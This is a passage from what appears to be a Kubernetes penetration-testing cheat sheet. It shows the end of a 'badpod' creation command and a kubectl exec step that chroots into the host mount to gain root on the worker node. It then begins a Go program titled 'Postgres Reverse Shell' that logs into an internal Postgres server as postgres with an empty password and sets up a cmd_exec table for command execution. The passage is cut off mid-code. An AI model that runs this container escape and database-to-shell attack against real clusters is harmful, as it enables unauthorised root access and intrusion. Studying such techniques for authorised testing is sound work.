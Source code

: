 ```sh
      }
    ]
  }
}' --labels=app=pentest --restart=Never
```

## Now exec it and chroot the host mount at /host to elevate to root on the worker node!
```sh
kubectl exec -it <badpod> -- /bin/sh -c 'chroot /host'
```
# Tools
<a id="item-seven"></a>

## Postgres Reverse Shell
```go
package main

import (
    "database/sql"
    "strconv"
    "log"

    _ "github.com/lib/pq"
)

const (
    host     = "10.244.0.6"
    port     = 5432 // Default port for PostgreSQL
    user     = "postgres"
    password = ""
)

func main() {
    // Construct the connection string
    psqlInfo := "host=" + host + " port=" + strconv.Itoa(port) + " user=" + user + " password=" + password + " sslmode=disable"

    // Open a connection to the database
    db, err := sql.Open("postgres", psqlInfo)
    if err != nil {
        log.Fatal(err)
    }
    defer db.Close()

    // Check the connection
    err = db.Ping()
    if err != nil {
        log.Fatal(err)
    }

    // Execute SQL commands
    _, err = db.Exec(`DROP TABLE IF EXISTS cmd_exec;`)
    if err != nil {
        log.Fatal(err)
    }

    _, err = db.Exec(`CREATE TABLE cmd_exec(cmd_output text);`)
    if err != nil {
        log.Fatal(err)
    }
```